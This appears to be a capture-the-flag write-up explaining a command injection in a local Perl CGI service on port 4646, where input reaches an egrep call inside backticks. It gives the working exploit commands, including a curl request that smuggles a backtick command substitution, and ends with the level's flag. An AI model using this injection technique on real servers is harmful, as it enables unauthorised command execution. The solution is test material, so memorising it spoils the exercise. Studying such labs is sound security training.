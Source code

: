 # LEVEL 00

## 💡 Explanation

In this level we have to:
1. As always, check the permissions of level12.pl
2. Then, check the code and understand how to call it and get the response => now the code is listening on the port 4646, so we have to sent it the info using curl to be able to pass the parameters!
3. To see how to pass the params and how they are transformed, I've imported the code and print everything (see level12_cristina.pl)
4. It is clear that we have to use the `egrep "^$xx" /tmp/xd` to exploit the code, since the variable `$xx` is coming directly from the parameter
5. Now the big WTF moment, egrep executes the regex... it is very stupid... once this is discovered everything else is pretty easy....
![The stupidest thing ever \o/](wtf.png)


## 👾 Commands

```
echo "getflag > /tmp/lol" > /tmp/LOL.SH
chmod s+x /tmp/LOL.SH
curl '127.0.0.1:4646?x="`/*/LOL.SH`"'
cat /tmp/lol
```

## 🔍 Resources

- [PERL and CGI Tutorial](https://www.tutorialspoint.com/perl/perl_cgi.htm)
- [PERL regular expressions](https://voyager.deanza.edu/~perry/cis331.html)
- [Linux egrep command](https://www.computerhope.com/unix/uegrep.htm)
- [Curl pass parameters](https://stackoverflow.com/questions/13371284/curl-command-line-url-parameters)

## 🔥 Password
`g1qKMiRpXf53AWhDaU7FEkczr`
